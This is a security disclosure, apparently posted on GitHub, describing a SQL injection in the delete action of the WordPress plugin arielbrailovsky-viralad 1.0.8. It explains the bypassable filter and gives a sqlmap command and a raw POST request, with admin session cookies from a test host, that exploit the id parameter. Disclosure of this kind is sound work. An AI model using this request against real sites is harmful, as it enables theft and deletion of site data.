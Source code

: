### The data deletion interface of the wordpress plugin arielbrailovsky-viralad has a sql injection vulnerability.

**Official website**: https://wordpress.org/plugins/arielbrailovsky-viralad/

**Version**：1.0.8

**Route**：/wp-content/plugins/arielbrailovsky-viralad/inc/anuncio.php

**API function**: delete records

**Injection parameters**: id

**Request method**：POST

**Complete vulnerability trigger related interfaces and parameters**：[/wp-content/plugins/arielbrailovsky-viralad/inc/anuncio.php]、[id=3&accion=delete&nocache=0.7030143690647372&security=7g1qlrsdkupbw5ocvije]

#### 1.Vulnerability analysis

In the anuncio.php file, when the request method is post and the request parameter action is delete, the incoming ID will be directly obtained and processed by the limpia function, and then directly spliced into the SQL query statement for execution.

![image-20250302202241001](assets/image-20250302202241001.png)

However, the limpia function only performs simple keyword filtering, which can be bypassed by attackers (such as case, keyword replacement, blind injection, etc.).

![image-20250302202435900](assets/image-20250302202435900.png)

Therefore, attackers can easily construct malicious SQL injection payloads for exploitation.

#### 2.Vulnerability verification and exploitation

You can use sqlmap to verify the vulnerability：python sqlmap.py -r 1.txt --batch --dbms=mysql

The specific injection data packets are as follows (need to replace nocache, security in the URL and cookies in the request header after logging in)

```
POST /wp-content/plugins/arielbrailovsky-viralad/inc/anuncio.php HTTP/1.1
Host: wp3:82
Content-Length: 75
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://wp3:82
Referer: http://wp3:82/wp-admin/options-general.php?page
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: wordpress_37a4e717093a81abe878d0b0a4b265ee=admin%7C1742114129%7C6a60c9d06464a51a9060e3fdf0020e0b; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_37a4e717093a81abe878d0b0a4b265ee=admin%7C1742114129%7C0abf1d7f8bfba5dca9d1f96d15294f9d; wp-settings-1=m6%3Do%26m9%3Do; wp-settings-time-1=1740904532; PHPSESSID=irmjinoeft5778hb5e97i155j6
Connection: close

id=3&accion=delete&nocache=0.7030143690647372&security=7g1qlrsdkupbw5ocvije
```

![image-20250302204633777](assets/image-20250302204633777.png)
